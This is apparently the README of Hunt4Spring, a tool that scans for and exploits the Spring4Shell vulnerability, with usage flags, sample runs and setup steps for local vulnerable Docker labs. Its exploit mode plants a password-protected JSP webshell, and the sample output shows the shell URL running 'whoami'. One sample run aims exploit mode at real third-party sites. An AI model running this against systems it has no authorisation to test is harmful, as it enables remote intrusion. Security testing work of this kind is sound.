 # Hunt4Spring

Hunt4Spring helps with identifying as well as exploiting URLs which are potentially vulnerable to [CVE-2022-22965](https://tanzu.vmware.com/security/cve-2022-22965) aka Spring4Shell.

**Video Demo:** https://www.youtube.com/watch?v=JnAnXDFKkF0

## Usage :

   ```
    $ ./hunt4spring -h

     _    _             _   _  _   _____            _             
    | |  | |           | | | || | / ____|          (_)            
    | |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
    |  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
    | |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
    |_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                        | |                  __/ |
                                        |_|                 |___/ 
                                                                                                                                                                                            
    

    [+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
    [+] Author: Umair Nehri (RHL Research Team)
    [+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 
    
    Usage of ./hunt4spring:
    -exploit
            Turns on exploitation mode.
    -file string
            Specify a file containing a list of target URLs.
    -outfile string
            Output file name to store results. (default "hunt4spring.json")
    -url string
            Specify a single target URL.
   ```

### Flags
In order to run Hunt4Spring, users have two options available. Either they can provide a single URL using the **-url** flag or provide with bulk URLs through a file by using the **-file** flag. They can even specify the name of the file where they would like to store the output in JSON format by using the **-outfile** flag. [By default the output gets stored in hunt4spring.json]

```sh
$ ./hunt4spring -url http://127.0.0.1:8080/ -exploit -outfile op.json

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:40:04 Checking: http://127.0.0.1:8080/
2022/04/01 17:40:04 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:40:04 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:40:06 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://127.0.0.1:8080/ | YES                       |
+------------------------+---------------------------+
```

### Usage Modes 
#### Default Mode
In the default mode, user doesn't has to specify any additional flags and this mode would be used by the tool by default. The tool will look for all URL/URLs which are potentially vulnerable to this vulnerability.

#### Usage:
We do  not have to provide any additional flags in this case.
<br>
```sh
$ ./hunt4spring -file test.txt

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:42:20 Checking: http://google.com/

2022/04/01 17:42:21 Checking: https://epic.com/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8082/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8080/
2022/04/01 17:42:26 http://127.0.0.1:8080/ [Seems to be vulnerable!]

2022/04/01 17:42:26 Checking: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+

```
#### Exploit Mode
In the exploit mode, the tool would not just scan the URL/URLs but would even try to exploit them by placing a webshell in the target's root directory. The name of the webshell would be **shell.jsp** having the password **hunt4spring**.

#### Usage:
In order to enable exploit mode, we have to provide an addtional flag (-exploit=true) along with the normal input flags.
<br>
```sh
$ ./hunt4spring -file test.txt -exploit

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:44:03 Checking: http://google.com/
2022/04/01 17:44:04 Trying to exploit: http://google.com/

2022/04/01 17:44:06 Checking: https://epic.com/
2022/04/01 17:44:11 Trying to exploit: https://epic.com/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8082/
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8082/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8080/
2022/04/01 17:44:17 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:44:20 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

2022/04/01 17:44:20 Checking: http://127.0.0.1/
2022/04/01 17:44:20 Trying to exploit: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+
```

### Output
The output file saves the data in JSON format like below:
```json
[
    {
        "host": "http://127.0.0.1:8080/",
        "is_vulnerable": true,
        "exploit_completed": true,
        "payload_path": "http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring\u0026cmd=whoami"
    }
]
```

 ### Setting up a Test Environment
  If you'd like to test out Spring4Hunt or the Spring4Shell vulnerability in general, then you can refer to these awesome docker images:
* <a href="https://github.com/reznok/Spring4Shell-POC">Spring4Shell-POC</a>
The installation process is pretty simple. You can refer to the below steps for setting it up locally:
    ```
    git clone https://github.com/reznok/Spring4Shell-POC.git
    docker build . -t spring4shell && docker run -p 8080:8080 spring4shell
    ```
The app should now be available at <a href="http://localhost:8080/helloworld/greeting">http://localhost:8080/helloworld/greeting</a>

* <a href="https://hub.docker.com/r/vulfocus/spring-core-rce-2022-03-29">vulfocus/spring-core-rce-2022-03-29</a>

The installation process is quite simple in this case as well, you just have to run the below command: 
    ```
    docker run -p 9090:8080 vulfocus/spring-core-rce-2022-03-29
    ```
The app should now be available at <a href="http://localhost:9090">http://localhost:9090</a>

### More details around Spring4Shell
We have covered more details around Log4j Vulnerability in our <a href="#">Blog</a>.

### License & Version
The tool is licensed under the MIT license. See <a href="LICENSE">LICENSE</a>.
Currently the tool is at v0.1.

### Credits
The Research Team at [RedHunt Labs](https://redhuntlabs.com) would like to thank [vx-underground](https://www.vx-underground.org/) for the POC hosted on their <a href="https://share.vx-underground.org/">website</a>.

##### **[`To know more about our Attack Surface Management platform, check out NVADR.`](https://redhuntlabs.com/nvadr)**

